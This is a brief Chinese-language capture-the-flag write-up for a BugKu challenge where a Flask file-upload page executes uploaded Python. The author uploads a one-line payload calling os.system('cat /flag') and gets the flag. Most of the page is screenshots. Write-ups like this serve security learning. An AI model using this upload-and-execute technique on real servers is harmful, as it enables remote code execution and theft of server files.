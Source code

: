 ### Python WebShell

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/681de0ca58cb8da5c8e9daa6.jpg)

打开网页是一个文件上传

![](https://pic1.imgdb.cn/item/681de0fa58cb8da5c8e9dab8.jpg)

这是 Python 的 Flask 框架，编写 Python 的木马

```python
import os
os.system('cat /flag')
```

![](https://pic1.imgdb.cn/item/681de11258cb8da5c8e9dabc.jpg)

上传文件

![](https://pic1.imgdb.cn/item/681de14158cb8da5c8e9daf7.jpg)

代码被执行拿到 flag

![](https://pic1.imgdb.cn/item/681de14c58cb8da5c8e9daff.jpg)